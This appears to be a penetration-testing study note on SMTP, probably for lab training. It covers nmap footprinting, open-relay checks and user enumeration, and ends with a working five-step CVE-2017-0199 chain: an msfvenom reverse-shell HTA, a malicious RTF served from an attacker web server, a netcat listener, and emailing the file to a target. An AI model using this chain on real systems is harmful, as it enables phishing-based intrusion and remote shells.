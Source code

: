 # Simple Mail Transfer Protocol

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

## Footprinting The Service

### **Nmap**

{% code overflow="wrap" %}
```
sudo nmap 10.129.14.128 -sC -sV -p25
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

### **Nmap - Open Relay**

{% code overflow="wrap" %}
```
sudo nmap 10.129.14.128 -p25 --script smtp-open-relay -v
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

## Enumerate users

Response codes from smtp servers may vary example code 250 & 252 is considered a valid user and smtp-user-enum checks only for 250

Without Domain

```
smtp-user-enum -M VRFY -U wordlist -t IP
```

With Domain

```
smtp-user-enum -M VRFY -U wordlist -t IP -d example.com
```

#### [RTF Vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2017-0199)

1. msfvenom -p windows/shell\_reverse\_tcp LHOST=local-IP LPORT=443 -f hta-psh -o msfv.hta
2. python2 cve-2017-0199\_toolkit.py -M gen -t RTF -w MailFile.RTF -u http://local-WebServIP:Port/msfv.hta
3. python2 -m SimpleHTTPServer 80
4. nc -lnvp 443
5. sendEmail -f FromEmail@example.com -t ToEmail@example.com -u "Subject" -m "Message" -a MailFile.RTF -s TargetIP -v

